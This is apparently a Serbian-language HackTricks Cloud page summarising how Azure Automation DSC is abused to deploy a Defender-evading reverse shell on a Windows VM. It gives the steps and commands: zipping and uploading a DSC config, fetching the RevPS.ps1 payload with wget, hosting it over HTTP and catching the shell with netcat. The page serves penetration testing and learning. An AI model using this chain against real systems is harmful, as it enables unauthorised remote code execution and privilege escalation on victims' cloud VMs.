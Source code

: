 # Az - State Configuration RCE

<details>

<summary><strong>Naučite hakovanje AWS-a od nule do heroja sa</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Drugi načini podrške HackTricks-u:

* Ako želite da vidite **vašu kompaniju reklamiranu na HackTricks-u** ili **preuzmete HackTricks u PDF formatu** proverite [**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)!
* Nabavite [**zvanični PEASS & HackTricks swag**](https://peass.creator-spring.com)
* Otkrijte [**The PEASS Family**](https://opensea.io/collection/the-peass-family), našu kolekciju ekskluzivnih [**NFT-ova**](https://opensea.io/collection/the-peass-family)
* **Pridružite se** 💬 [**Discord grupi**](https://discord.gg/hRep4RUj7f) ili [**telegram grupi**](https://t.me/peass) ili nas **pratite** na **Twitter-u** 🐦 [**@hacktricks_live**](https://twitter.com/hacktricks_live)**.**
* **Podelite svoje hakovanje trikove slanjem PR-ova na** [**HackTricks**](https://github.com/carlospolop/hacktricks) i [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repozitorijume.

</details>

**Proverite kompletan post na: [https://medium.com/cepheisecurity/abusing-azure-dsc-remote-code-execution-and-privilege-escalation-ab8c35dd04fe](https://medium.com/cepheisecurity/abusing-azure-dsc-remote-code-execution-and-privilege-escalation-ab8c35dd04fe)**

### Rezime pripreme infrastrukture udaljenog servera (C2) i koraci

#### Pregled
Proces uključuje postavljanje infrastrukture udaljenog servera za smeštanje modifikovanog Nishang `Invoke-PowerShellTcp.ps1` payload-a, nazvanog `RevPS.ps1`, koji je dizajniran da zaobiđe Windows Defender. Payload se servira sa Kali Linux mašine sa IP adresom `40.84.7.74` koristeći jednostavan Python HTTP server. Operacija se izvršava kroz nekoliko koraka:

#### Korak 1 — Kreiranje fajlova
- **Potrebni fajlovi:** Potrebna su dva PowerShell skripta:
1. `reverse_shell_config.ps1`: Desired State Configuration (DSC) fajl koji preuzima i izvršava payload. Dostupan je na [GitHub-u](https://github.com/nickpupp0/AzureDSCAbuse/blob/master/reverse_shell_config.ps1).
2. `push_reverse_shell_config.ps1`: Skripta za objavljivanje konfiguracije na virtuelnoj mašini, dostupna na [GitHub-u](https://github.com/nickpupp0/AzureDSCAbuse/blob/master/push_reverse_shell_config.ps1).
- **Prilagođavanje:** Promenljive i parametri u ovim fajlovima moraju biti prilagođeni specifičnom okruženju korisnika, uključujući nazive resursa, putanje fajlova i identifikatore servera/payload-a.

#### Korak 2 — Zipovanje konfiguracionog fajla
- `reverse_shell_config.ps1` se kompresuje u `.zip` fajl, čime je spreman za prenos na Azure Storage Account.
```powershell
Compress-Archive -Path .\reverse_shell_config.ps1 -DestinationPath .\reverse_shell_config.ps1.zip
```
#### Korak 3 — Postavi kontekst skladištenja i otpremi
- Zipovana konfiguraciona datoteka se otprema u unapred definisani Azure Storage kontejner, azure-pentest, koristeći Azure-ov Set-AzStorageBlobContent cmdlet.
```powershell
Set-AzStorageBlobContent -File "reverse_shell_config.ps1.zip" -Container "azure-pentest" -Blob "reverse_shell_config.ps1.zip" -Context $ctx
```
#### Korak 4 — Priprema Kali mašine
- Kali server preuzima RevPS.ps1 payload sa GitHub repozitorijuma.
```bash
wget https://raw.githubusercontent.com/nickpupp0/AzureDSCAbuse/master/RevPS.ps1
```
- Skripta se uređuje kako bi se odredila ciljana Windows VM i port za obrnutu ljusku.

#### Korak 5 — Objavi konfiguracioni fajl
- Izvršava se konfiguracioni fajl, što rezultira implementacijom skripte za obrnutu ljusku na određenoj lokaciji na Windows VM.

#### Korak 6 — Hostujte Payload i postavite osluškivač
- Pokreće se Python SimpleHTTPServer kako bi se hostovao payload, zajedno sa Netcat osluškivačem za hvatanje dolaznih veza.
```bash
sudo python -m SimpleHTTPServer 80
sudo nc -nlvp 443
```
- Zakazani zadatak izvršava payload, postižući privilegije na nivou sistema.

#### Zaključak

Uspješno izvršavanje ovog procesa otvara brojne mogućnosti za daljnje radnje, poput izvlačenja vjerodajnica ili proširenja napada na više virtuelnih mašina. Vodič podstiče kontinuirano učenje i kreativnost u području Azure Automation DSC.

<details>

<summary><strong>Naučite hakovanje AWS-a od nule do heroja sa</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Drugi načini podrške HackTricks-u:

* Ako želite vidjeti **oglašavanje vaše kompanije na HackTricks-u** ili **preuzeti HackTricks u PDF formatu**, provjerite [**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)!
* Nabavite [**zvanični PEASS & HackTricks swag**](https://peass.creator-spring.com)
* Otkrijte [**The PEASS Family**](https://opensea.io/collection/the-peass-family), našu kolekciju ekskluzivnih [**NFT-ova**](https://opensea.io/collection/the-peass-family)
* **Pridružite se** 💬 [**Discord grupi**](https://discord.gg/hRep4RUj7f) ili [**telegram grupi**](https://t.me/peass) ili nas **pratite** na **Twitteru** 🐦 [**@hacktricks_live**](https://twitter.com/hacktricks_live)**.**
* **Podijelite svoje hakovanje trikove slanjem PR-ova na** [**HackTricks**](https://github.com/carlospolop/hacktricks) i [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repozitorijume.

</details>
